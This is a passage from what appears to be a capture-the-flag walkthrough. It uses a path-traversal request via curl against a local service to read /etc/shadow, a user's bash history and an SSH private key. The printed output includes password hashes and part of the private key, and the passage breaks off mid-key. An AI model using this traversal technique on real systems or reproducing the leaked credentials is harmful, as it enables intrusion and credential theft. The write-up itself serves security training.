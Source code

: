 `freeswitch@clue:/$ curl --path-as-is 127.0.0.1:4444/../../../../../../../../../../../../../etc/shadow`              
`<4/../../../../../../../../../../../../../etc/shadow`
`root:$6$kuXiAC8PIOY2uis9$LrTzlkYSlY485ZREBLW5iPSpNxamM38BL85BPmaIAWp05VlV.tdq0EryiFLbLryvbsGTx50dLnMsxIk7PJB5P1:19209:0:99999:7:::`
`daemon:*:18555:0:99999:7:::`
`bin:*:18555:0:99999:7:::`
`sys:*:18555:0:99999:7:::`
`sync:*:18555:0:99999:7:::`
`games:*:18555:0:99999:7:::`
`man:*:18555:0:99999:7:::`
`lp:*:18555:0:99999:7:::`
`mail:*:18555:0:99999:7:::`
`news:*:18555:0:99999:7:::`
`uucp:*:18555:0:99999:7:::`
`proxy:*:18555:0:99999:7:::`
`www-data:*:18555:0:99999:7:::`
`backup:*:18555:0:99999:7:::`
`list:*:18555:0:99999:7:::`
`irc:*:18555:0:99999:7:::`
`gnats:*:18555:0:99999:7:::`
`nobody:*:18555:0:99999:7:::`
`_apt:*:18555:0:99999:7:::`
`systemd-timesync:*:18555:0:99999:7:::`
`systemd-network:*:18555:0:99999:7:::`
`systemd-resolve:*:18555:0:99999:7:::`
`messagebus:*:18555:0:99999:7:::`
`sshd:*:18555:0:99999:7:::`
`systemd-coredump:!!:18555::::::`
`ntp:*:19209:0:99999:7:::`
`cassandra:!:19209:0:99999:7:::`
`cassie:$6$/WeFDwP1CNIN34/z$9woKSLSZhgHw1mX3ou90wnR.i5LHEfeyfHbxu7nYmaZILVrbhHrSeHNGqV0WesuQWGIL7DHEwHKOLK6UX79DI0:19209:0:99999:7:::`
`freeswitch:!:19209::::::`
`anthony:$6$01NV0gAhVLOnUHb0$byLv3N95fqVvhut9rbsrYOVzi8QseWfkFl7.VDQ.26a.0IkEVR2TDXoTv/KCMLjUOQZMMpkTUdC3WIyqSWQ.Y1:19209:0:99999:7:::`

We can see the hashed passwords for root and anthony now. Running them through hashcat we don't get a result unfortunately.

Let's check anthony's bash history
`freeswitch@clue:/$ curl --path-as-is 127.0.0.1:4444/../../../../../../../../../../../../../home/anthony/.bash_history`
`</../../../../../../../../home/anthony/.bash_history`
`clear`
`ls -la`
`ssh-keygen`
`cp .ssh/id_rsa.pub .ssh/authorized_keys`
`sudo cp .ssh/id_rsa.pub /root/.ssh/authorized_keys`
`exit`

From this we can tell Anthony generated an SSH pair and added his public key as authorized for root. Let's see if we can view Anthony's private key.
`freeswitch@clue:/$ curl --path-as-is 127.0.0.1:4444/../../../../../../../../../../../../../home/anthony/.ssh/id_rsa`  
`<../../../../../../../../../home/anthony/.ssh/id_rsa`
`-----BEGIN OPENSSH PRIVATE KEY-----`
`b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn`
`NhAAAAAwEAAQAAAQEAw59iC+ySJ9F/xWp8QVkvBva2nCFikZ0VT7hkhtAxujRRqKjhLKJe`
`d19FBjwkeSg+PevKIzrBVr0JQuEPJ1C9NCxRsp91xECMK3hGh/DBdfh1FrQACtS4oOdzdM`
`jWyB00P1JPdEM4ojwzPu0CcduuV0kVJDndtsDqAcLJr+Ls8zYo376zCyJuCCBonPVitr2m`
`B6KWILv/ajKwbgrNMZpQb8prHL3lRIVabjaSv0bITx1KMeyaya+K+Dz84Vu8uHNFJO0rhq`
`gBAGtUgBJNJWa9EZtwws9PtsLIOzyZYrQTOTq4+q/FFpAKfbsNdqUe445FkvPmryyx7If/`
`DaMoSYSPhwAAA8gc9JxpHPScaQAAAAdzc2gtcnNhAAABAQDDn2IL7JIn0X/FanxBWS8G9r`
`acIWKRnRVPuGSG0DG6NFGoqOEsol53X0UGPCR5KD4968ojOsFWvQlC4Q8nUL00LFGyn3XE`